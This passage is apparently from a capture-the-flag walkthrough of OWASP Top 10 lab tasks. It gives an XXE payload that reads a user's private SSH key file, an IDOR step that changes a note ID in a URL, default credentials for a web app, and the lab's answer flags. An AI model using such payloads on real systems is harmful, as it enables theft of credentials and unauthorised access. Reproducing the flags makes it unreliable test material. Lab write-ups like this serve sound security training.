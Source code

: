 **=> Answer: `falcon`**

- <p>Where is falcon's SSH key located?<br /></p>
```
- We know the falcon is stored at /home/falcon
```

**=> Answer: `/home/falcon/.ssh/id_rsa`**

- <p>What are the first 18 characters for falcon's private key<br /></p>
```
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///home/falcon/.ssh/id_rsa">]>
<root>&read;</root>
```
![Guide Image](./screenshots/owasp-top-10-3.png)

**=> Answer: `MIIEogIBAAKCAQEA7b`**

### 17. [Severity 5] Broken Access Control
*No hints needed!*

### 18. [Severity 5] Broken Access Control (IDOR Challenge)
- <p>Look at other users notes. What is the flag?<br /></p>
```
- Try the URL http://<MACHINE_IP>/note.php?note=0
```

**=> Answer: `flag{fivefourthree}`**

### 19. [Severity 6] Security Misconfiguration
- <p>Hack into the webapp, and find the flag!<br /></p>
```
- Visit http://<MACHINE_IP>
- You can see that this app named Pensive Notes
- Try search on GG with: Pensive Notes
- You will find this Gihub repo where the username and password are located: https://github.com/NinjaJc01/PensiveNotes
- Login with pensive:PensiveNotes
```
